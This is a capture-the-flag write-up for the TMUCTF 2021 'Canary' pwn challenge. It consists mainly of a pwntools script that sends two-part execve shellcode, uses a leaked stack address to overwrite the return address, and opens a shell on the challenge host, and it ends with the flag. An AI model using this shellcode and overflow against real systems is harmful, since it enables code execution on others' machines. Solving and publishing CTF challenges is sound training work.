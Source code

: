 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
This is a shellcode challenge. We have to insert a two-part shellcode and finally overwrite the address of the beginning of the shellcode. Here is the script (also available in [solve.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Canary/Writeup%20Files/solve.py)):    
```python
from pwn import *
context.arch = "amd64"

r = remote("194.5.207.113", 7030)
sh1 = ''
sh1 += asm('mov rbx, 0x68732f6e69622f2f')
sh1 += asm('jmp $-0x25')
sh2 = ''
sh2 += asm('xor rsi, rsi')
sh2 += asm('xor rdx, rdx')
sh2 += asm('mov al, 0x3b')
sh2 += asm('push rdx')
sh2 += asm('push rbx')
sh2 += asm('mov rdi, rsp')
sh2 += asm('syscall')

r.recvuntil(':')
r.sendline(sh1)
r.recvuntil(':')
r.sendline(sh2)
r.recvuntil('address: ')
n = r.recvuntil('\n')
print(n)
leak = int(n,16)
log.info('leak : 0x%x' % leak)
r.recvuntil(': ')
r.sendline('a'*20 + p64(leak + 12))
r.interactive()
```   
The flag:   
```
TMUCTF{3x3cu74bl3_574ck_15_v3ry_d4n63r0u5}
```  
